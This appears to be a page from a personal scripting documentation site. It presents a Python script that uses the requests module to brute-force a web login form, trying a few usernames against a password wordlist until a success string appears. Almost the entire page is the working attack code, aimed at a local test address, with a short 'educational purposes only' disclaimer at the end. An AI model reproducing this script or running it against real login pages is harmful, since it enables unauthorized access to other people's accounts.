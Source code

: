 [requests module 🌐](https://emik11.github.io/TheDocumentation/Scripting/Python/Python%20Modules/Useful%20Modules/#requests "Useful modules #requests")

---

This script uses the `requests` module to perform a web login form brute-forceattack.

```py linenums="1"
import requests
import sys

target = "http://127.0.0.1:5000"
usernames = ["admin", "user", "test"]
passwords = "top-100.txt"
needle = "Welcome back"

for username in usernames:
    with open(passwords, "r") as passwords_list:
        for password in passwords_list:
            password = password.strip("\n").encode('latin-1')
            sys.stdout.write(f"[X] Attempting user:password -> {username}:{password.decode('latin-1')}\r")
            sys.stdout.flush()
            
            r = requests.post(target, data={"username": username, "password": password})
            
            if needle.encode() in r.content:
                sys.stdout.write("\n")
                sys.stdout.write(f"\t[>>>>>] Valid password '{password}' found for user '{username}'!")
                sys.exit()

        sys.stdout.flush()
        sys.stdout.write("\n")
        sys.stdout.write(f"\t No password found for '{username}'!")
        sys.stdout.write("\n")
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.